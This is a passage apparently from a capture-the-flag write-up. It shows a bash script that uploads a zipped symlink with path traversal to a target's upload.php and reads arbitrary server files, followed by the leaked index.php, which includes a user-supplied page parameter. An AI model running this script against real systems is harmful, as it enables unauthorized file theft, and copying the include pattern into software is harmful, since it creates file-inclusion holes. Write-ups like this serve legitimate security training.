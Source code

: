 Firefox still tries to interpret it as a PDF but viewing the response in burp we see a file!

![burpsuite shows that it was trying to interpret a text file](Assets/burp_shows_file.jpg)

Let’s write a quick script to make looking around easier:

```BASH
#!/bin/bash
#lfi.sh

localfname=$(echo -n $1 | sed 's/[^a-zA-Z0-9]/_/g')

ln -s "../../../../../../../../../../../../../../../${1}" "e.pdf"

zip "e.zip" --symlinks "e.pdf"

hash=$(curl -sS -X POST -F "zipFile=@e.zip;type=application/zip" -F "submit=" -x "http://127.0.0.1:8080" "http://${TARGET}/upload.php" | sed -n 's/.*uploads\/\([^\/]*\)\/.*/\1/p')

echo "http://${TARGET}/uploads/${hash}/e.pdf"

curl -o $localfname "http://${TARGET}/uploads/${hash}/e.pdf"

rm e.zip e.pdf
```

```php
/var/www/html/shop/index.php

<?php
session_start();
// Include functions and connect to the database using PDO MySQL
include 'functions.php';
$pdo = pdo_connect_mysql();
// Page is set to home (home.php) by default, so when the visitor visits, that will be the page they see.
$page = isset($_GET['page']) && file_exists($_GET['page'] . '.php') ? $_GET['page'] : 'home';
// Include and show the requested page
include $page . '.php';
?>
```

